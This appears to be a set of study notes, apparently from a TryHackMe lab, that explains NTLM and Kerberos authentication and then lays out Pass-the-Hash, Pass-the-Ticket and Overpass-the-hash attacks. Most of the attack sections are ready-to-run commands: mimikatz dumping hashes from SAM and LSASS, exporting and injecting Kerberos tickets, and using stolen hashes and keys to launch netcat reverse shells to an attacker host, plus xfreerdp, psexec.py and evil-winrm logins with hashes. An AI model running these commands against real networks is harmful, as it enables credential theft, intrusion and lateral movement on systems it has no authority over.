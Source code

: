 There are two types of Authentication **Kerberos** and **NTLM**

**First: NTLM Authentication**
```
    The client sends an authentication request to the server they want to access.
    The server generates a random number and sends it as a challenge to the client.
    The client combines his NTLM password hash with the challenge (and other known data) to generate a response to the challenge and sends it back to the server for verification.
    The server forwards both the challenge and the response to the Domain Controller for verification.
    The domain controller uses the challenge to recalculate the response and compares it to the initial response sent by the client. If they both match, the client is authenticated; otherwise, access is denied. The authentication result is sent back to the server.
    The server forwards the authentication result to the client.
```

**Pass-the-Hash attack**

Is a technique used in network security attacks where an attacker uses a hashed password to authenticate to a remote server or service, instead of using the plaintext password. 
To extract NTLM hashes, we can either use **mimikatz** to read the local SAM or extract hashes directly from LSASS memory.
```
mimikatz # privilege::debug    
mimikatz # token::elevate    # to elevate us with higher privilege
mimikatz # lsadump::sam      # hashes of local users only and the domain users will not be listed
```
We will use this better to solve **sam** problem:
```
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # sekurlsa::msv     # hashes of local users and the domain users will be listed
```

We can then use the extracted hashes to perform a PtH attack by using **mimikatz** to inject an access token for the victim user on a reverse shell (or any other command you like) as follows:
```
mimikatz # token::revert
mimikatz # sekurlsa::pth /user:<AdminUser> /domain:<DomainName> /ntlm:<AdminNTML> /run:"nc.exe -e cmd.exe <ATTACKER_IP> 5555"
```
Then setup a lisenter using **nc**:
```
nc -nlvp 5555
```
**Passing the Hash Using Linux:**
```
xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH
```
```
psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP
```
```
evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH
```


**Secend: Kerberos Authentication**<br>
```
1> The user sends his username and a timestamp encrypted using a key derived from his password to the Key Distribution Center (KDC), a service usually installed on the Domain Controller in charge of creating Kerberos tickets on the network.
The KDC will create and send back a Ticket Granting Ticket (TGT), allowing the user to request tickets to access specific services without passing their credentials to the services themselves. Along with the TGT, a Session Key is given to the user, which they will need to generate the requests that follow.
Notice the TGT is encrypted using the krbtgt account's password hash, so the user can't access its contents. It is important to know that the encrypted TGT includes a copy of the Session Key as part of its contents, and the KDC has no need to store the Session Key as it can recover a copy by decrypting the TGT if needed.
2> When users want to connect to a service on the network like a share, website or database, they will use their TGT to ask the KDC for a Ticket Granting Service (TGS). TGS are tickets that allow connection only to the specific service for which they were created. To request a TGS, the user will send his username and a timestamp encrypted using the Session Key, along with the TGT and a Service Principal Name (SPN), which indicates the service and server name we intend to access.
As a result, the KDC will send us a TGS and a Service Session Key, which we will need to authenticate to the service we want to access. The TGS is encrypted using the Service Owner Hash. The Service Owner is the user or machine account under which the service runs. The TGS contains a copy of the Service Session Key on its encrypted contents so that the Service Owner can access it by decrypting the TGS.
3> The TGS can then be sent to the desired service to authenticate and establish a connection. The service will use its configured account's password hash to decrypt the TGS and validate the Service Session Key.

```

**Pass-the-Ticket attack**

```
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```
Once we have extracted the desired ticket, we can inject the tickets into the current session with the following command:
```
mimikatz # kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi
```

Injecting tickets in our own session doesn't require administrator privileges. After this, the tickets will be available for any tools we use for lateral movement. To check if the tickets were correctly injected, you can use the klist command:
```
klist
```

**Overpass-the-hash / Pass-the-Key attack**

When a user requests a TGT, they send a timestamp encrypted with an encryption key derived from their password. If we have any of those keys, we can ask the KDC for a TGT without requiring the actual password, hence the name Pass-the-key (PtK).
<br>We can obtain the Kerberos encryption keys from memory by using mimikatz with the following commands:
```
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys
```
If we have the RC4 hash:
```
mimikatz # sekurlsa::pth /user:Administrator /domain:<DomainName> /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"nc -e cmd.exe ATTACKER_IP 5556"
```
If we have the AES128 hash:
```
mimikatz # sekurlsa::pth /user:Administrator /domain:<DomainName> /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"nc -e cmd.exe ATTACKER_IP 5556"
```
If we have the AES256 hash:
```
mimikatz # sekurlsa::pth /user:Administrator /domain:<DomainName> /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"nc -e cmd.exe ATTACKER_IP 5556"
```


























